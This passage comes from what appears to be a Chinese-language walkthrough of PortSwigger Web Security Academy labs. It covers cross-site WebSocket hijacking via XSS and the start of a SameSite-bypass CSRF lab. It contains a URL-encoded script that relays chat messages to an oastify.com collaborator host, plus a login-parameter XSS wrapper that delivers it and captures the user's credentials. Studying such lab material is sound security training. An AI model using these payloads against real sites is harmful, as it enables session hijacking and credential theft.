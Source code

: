 ```html
#%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%30%30%30%39%63%30%33%66%65%37%64%62%33%38%30%61%34%31%32%31%65%30%30%37%37%30%30%64%39%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%64%64%75%73%37%6b%37%64%63%67%77%74%6e%35%74%31%75%75%74%7a%62%76%39%76%34%6d%61%65%79%33%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

URL编码后再将该脚本放入用于传入exploit的payload:

```html
<script>
    document.location = "https://cms-0a80009c03fe7db380a4121e007700d9.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%30%30%30%39%63%30%33%66%65%37%64%62%33%38%30%61%34%31%32%31%65%30%30%37%37%30%30%64%39%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%64%64%75%73%37%6b%37%64%63%67%77%74%6e%35%74%31%75%75%74%7a%62%76%39%76%34%6d%61%65%79%33%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>

#模拟cms页面中的xss攻击，诱导用户输入账户密码并传入之前的脚本，脚本回传后会在collaborator中显示
```

传入exploit后直接在collaborator中论询，发现用户和密码已经回显：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132156252.png)

#### 3.2.5 OAuth与Cookie刷新漏洞

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh

OAuth的具体原理先不展开，做这道题只需要把OAuth的原理理解清楚即可：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132329781.png)

这道题是基于SSO（单点登录）出现的CSRF漏洞，OAuth也是SSO的一种实现方式。SSO简单来说就是只需要登陆一次就可以获得与登陆服务器相关且信任的所有资源的访问权限。而Chrome为了避免破坏SSO机制，会在设置cookie后的前120s不对cookie的类型做任何限制，即便可能该网址的Samesite属性为Strict/Lax.在这两分钟的空窗期内就有机会实施CSRF攻击。

在此题中，修改邮箱的post请求只包含session cookie，说明有可能存在csrf漏洞：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132340711.png)
